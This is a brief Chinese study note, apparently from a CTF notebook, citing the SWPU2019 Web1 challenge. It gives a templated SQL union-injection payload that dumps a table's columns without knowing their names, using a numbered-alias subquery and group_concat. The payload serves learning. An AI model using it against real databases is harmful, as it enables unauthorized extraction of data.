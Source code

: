 参考[[[SWPU2019]Web1（学习）]]
```sql
union select 
1,
(
	select group_concat(<name_x>)
	from
	(
		select 1 as <name_1>, 2 as <name_2>, 3 as <name_3>
		union select * from <table_name>
	)
),
3
```

#Web #SQL注入 #联合注入 